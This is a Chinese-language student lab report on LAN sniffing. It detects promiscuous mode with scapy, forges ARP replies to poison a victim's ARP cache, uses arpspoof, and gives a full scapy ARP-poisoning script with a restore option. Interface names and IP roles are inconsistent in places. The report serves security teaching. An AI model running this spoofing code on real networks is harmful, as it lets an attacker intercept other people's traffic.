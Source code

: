 # 网络监听实验
## 实验环境
- 网络拓扑如下图

| 名称 | IP地址 | MAC地址 |
|--|--|--|
| 受害者 | 172.16.111.109 | 08:00:27:87:0E:91 |
| 网关 | 172.16.111.1 | 08:00:27:49:73:be |
| 攻击者 | 172.16.111.130 | 08:00:27:8f:fe:8b |

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```
![](img/install.png)
## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```
![](img/iplinkshow.png)
```bash
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.109")
```
![](img/scapy1.png)
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```
![](img/promiscon.png)
```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.109")
```
![](img/scapy2.png)
- 比对两次结果，发现在受害者主机开启混杂模式后，攻击者主机检测到了受害者混杂模式的开启
```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
![](img/promiscoff.png)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
print(gw_mac)
```
![](img/arp.png)
```py
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.109
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.109", hwdst="08:00:27:8f:fe:8b")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](img/send.png)
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```
![](img/arpp1.png)
回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:49:73:be", pdst="172.16.111.109", hwdst="08:00:27:87:0E:91")
sendp(restorepkt1, count=100, inter=0.2)

```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](img/arppoison.png)

## 实验三：使用自动化工具完成ARP投毒劫持实验
使用arpspoof工具完成
```bash
sudo arpspoof -i eth1 -t 172.16.111.109<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```
![](img/arpp3.png)

## 实验四：基于scapy编写ARP投毒劫持工具

```py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
	'''
	use getmacbyip function to get target Ip's MAC address
	'''
	target_mac = getmacbyip(target_ip)
	if target_mac is not None:
		return target_mac
	else:
		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
		
def create_arp_target(src_ip,src_mac,target_ip,target_mac):
	'''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
	'''
	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
	return pkt
	
def create_arp_gateway(gateway_ip):

	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
	return pkt
	
def main():
	src_ip = "172.16.111.109"
	interface="eth0"
	src_mac = get_if_hwaddr(interface)
	print('本机IP地址是：', src_ip)
	print('本机MAC地址是:',src_mac)
	target_ip="172.16.111.121"
	target_mac=get_mac(target_ip)
	print("目标计算机IP地址是：", target_ip)
	print("目标计算机MAC地址是：", target_mac)
	gateway_ip = "172.16.111.1"
	arpbroadcast = create_arp_gateway(gateway_ip)
	# 发送这个 ARP 广播请求
	recved = srp(arpbroadcast, timeout=2)
	# 网关 MAC 地址如下
	gateway_mac = recved[0][0][1].hwsrc
	print("网关MAC地址是：", gateway_mac)
	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
	sendp(arpspoofed)
	choice = input("是否恢复受害者主机ARP缓存(y/n):")
	if choice == 'y':
		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
		sendp(restorepkt1,count=10,inter=0.1)
		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
		sendp(restorepkt2,count=10,inter=0.1)
		
	
if __name__=='__main__':
	main()

```
## 参考资料
- [课程 · 实验四](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#)
- [2021-ns-public-EddieXu1125/chap0x04/](https://github.com/CUCCS/2021-ns-public-EddieXu1125/tree/chap0x04/chap0x04)